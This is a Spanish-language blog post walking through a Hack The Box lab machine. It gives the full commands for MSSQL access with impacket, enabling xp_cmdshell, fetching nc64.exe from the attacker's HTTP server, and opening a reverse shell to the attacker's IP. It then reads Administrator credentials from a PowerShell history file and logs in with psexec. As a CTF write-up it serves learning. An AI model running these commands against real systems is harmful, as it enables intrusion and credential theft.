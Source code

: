 ```yaml
---
title: Primera Maquina HTB complicada
published: true
---
```


* * *

<br/>

## PRIMERA MÁQUINA QUE ME BLOQUEA

### PRIMERA FLAG (FLAG SENCILLA)
Este post hace referencia a mi primera atascada. Esta máquina tenía una vulnerabilidad de smb y sql.
La primera de smb nos daba las credenciales de un usuario normal, tan solo era acceder y descargar
ese archivo.
Luego, debo conectarme a la base de datos, gracias a una herramienta de impacket, **mssqlclient**

Accedo con la siguiente linea `impacket-mssqlclient -windows-auth {USER}:{PASSWORD}@{IP}`

Necesito habilitar un procedimiento que spawnea un cmd. Usamos `enable_xp_cmdshell`

Ahora si hacemos `xp_cmdshell whoami` nos ejecutará el comando.

En este punto llegó mi atasco porque no sabia como seguir.

Debo conseguir la flag del usuario normal. Ya la conseguí buscando por los directorios
pero hay una manera mas sencilla. Uso **nc** para conectarme remotamente.
En mi máquina empiezo un servidor HTTP simple en una terminal y me pongo en escucha con netcat.
Para empezar el servidor HTTP: `sudo python3 -m http.server 80`
Para ponerme en escucha con nc: `sudo nc -lvnp 443`

Con nuestro usuario no tenemos permisos para subir ficheros. Por eso usamos el servidor HTTP, 
para que se lo descargue en su carpeta de Descargas. 
Lo hago de la siguiente manera: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://{MI_IP}/nc64.exe -outfile nc64.exe"`

Verifico en la terminal de nuestro servidor de python HTTP que se ha hecho la petición.

Ahora me conecto a nc: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe 
-e cmd.exe {MI_IP} 443`

En la terminal donde estaba en escucha tenemos la reverse shell.

<br>

### ESCALADA DE PRIVILEGIOS
Esta es la parte dificil de la maquina. 

Creo el .bat **winPEAS**. Este script analiza una posible ruta para escalar privilegios. 

Con la shell reverse de antes, transferimos el .bat: `wget http://{MI_IP}/winPEAS.bat -outfile winPEAS.bat`
y lo ejecutamos. Entramos en **powershell** y .\winPEAS.bat

Es dificil ver algo, pruebo con winPEAS.exe escrito en C.

Transferimos el winPEAS.exe como hice con el .bat y lo ejecuto. 

Nos dice el scan que puede haber credenciales en la siguiente direccion: 
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Navegamos hasta ella y esta las credenciales de Administrator.

Con otra herramienta de impacket **psexec** entramos como administrador.
impacket-psexec administrator@{IP}
En el escritorio tenemos la flag de administrador.
